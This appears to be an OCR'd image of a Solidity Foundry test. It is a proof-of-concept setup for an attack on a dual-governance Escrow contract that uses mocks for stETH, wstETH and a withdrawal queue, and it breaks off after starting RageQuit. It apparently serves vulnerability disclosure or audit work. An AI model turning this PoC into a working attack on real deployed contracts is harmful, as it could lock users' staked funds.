 ```solidity
        MIN_ASSETS_LOCK_DURATION = Durations.from(1 days);
        MAX_MIN_ASSETS_LOCK_DURATION = Durations.from(100 days);

        stETH = new StETHMock();
        wstETH = new WstETHMock(IStETH(address(stETH)));
        withdrawalQueue = new WithdrawalQueueMock(IERC20(address(stETH)));
        // Set withdrawal queue parameters to match the PoC scenario
        withdrawalQueue.setMinStETHWithdrawalAmount(100 ether);
        withdrawalQueue.setMaxStETHWithdrawalAmount(1000 ether);

        masterCopy = new Escrow(
            IStETH(address(stETH)),
            IWstETH(address(wstETH)),
            IWithdrawalQueue(address(withdrawalQueue)),
            IDualGovernance(dualGovernanceAddress),
            100,
            MAX_MIN_ASSETS_LOCK_DURATION
        );
        escrow = Escrow(payable(Clones.clone(address(masterCopy))));

        vm.prank(dualGovernanceAddress);
        escrow.initialize(MIN_ASSETS_LOCK_DURATION);

        // Mint and approve for both victim and attacker
        stETH.mint(victim, VICTIM_DEPOSIT_AMOUNT);
        vm.startPrank(victim);
        stETH.approve(address(wstETH), type(uint256).max);
        wstETH.wrap(VICTIM_DEPOSIT_AMOUNT);
        wstETH.approve(address(escrow), type(uint256).max);
        vm.stopPrank();

        stETH.mint(attacker, ATTACKER_DEPOSIT_AMOUNT);
        vm.startPrank(attacker);
        stETH.approve(address(wstETH), type(uint256).max);
        wstETH.wrap(ATTACKER_DEPOSIT_AMOUNT);
        wstETH.approve(address(escrow), type(uint256).max);
        vm.stopPrank();

        vm.mockCall(
            dualGovernanceAddress,
            abi.encodeWithSelector(IDualGovernance.activateNextState.selector),
            abi.encode(true)
        );
    }

    function test_Attack_LockDustFundsByPrematurelyClosingQueue() public {
        // === Step 1: Users deposit, creating a specific total amount ===
        vm.startPrank(victim);
        escrow.lockWstETH(wstETH.balanceOf(victim));
        vm.stopPrank();

        vm.startPrank(attacker);
        escrow.lockWstETH(wstETH.balanceOf(attacker));
        vm.stopPrank();

        uint totalDeposited = VICTIM_DEPOSIT_AMOUNT + ATTACKER_DEPOSIT_AMOUNT;
        console.log("Total Amount Locked: %s wei", totalDeposited); // Should be 2050 ether

        // === Step 2: RageQuit begins ===
        vm.prank(dualGovernanceAddress);
        escrow.startRageQuit(Durations.ZERO, Durations.ZERO);
        assertEq(uint(escrow.getEscrowState()), uint(EscrowState.RageQuitEscrow));
        console.log("--- RageQuit Started ---");
```